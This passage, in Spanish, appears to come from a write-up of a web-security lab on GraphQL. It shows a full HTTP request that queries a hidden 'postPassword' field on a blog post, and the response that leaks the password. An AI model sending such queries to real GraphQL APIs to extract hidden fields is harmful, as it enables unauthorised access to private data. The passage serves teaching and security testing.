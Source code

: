 Con la información obtenida del esquema, un ethical hacker puede construir peticiones dirigidas a explotar funcionalidades específicas. Por ejemplo, se ha identificado que el tipo `BlogPost` tiene un campo `postPassword`.

```json
POST /graphql/v1 HTTP/2
Host: 0a5b00dd048ba554819aa27700090031.web-security-academy.net
Cookie: session=l1QUxVhFtOE6JMh1Ok6hhctqCXxEqXzd
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Accept: application/json
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/json
Origin: https://0a5b00dd048ba554819aa27700090031.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a5b00dd048ba554819aa27700090031.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"query":"{getBlogPost(id:3){postPassword}}"}
```

Lo anterior da como resultado:

```json
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 103

{
  "data": {
    "getBlogPost": {
      "postPassword": "5m6by17czqhn404zbh5lq3nszn25ptoi"
    }
  }
}
```
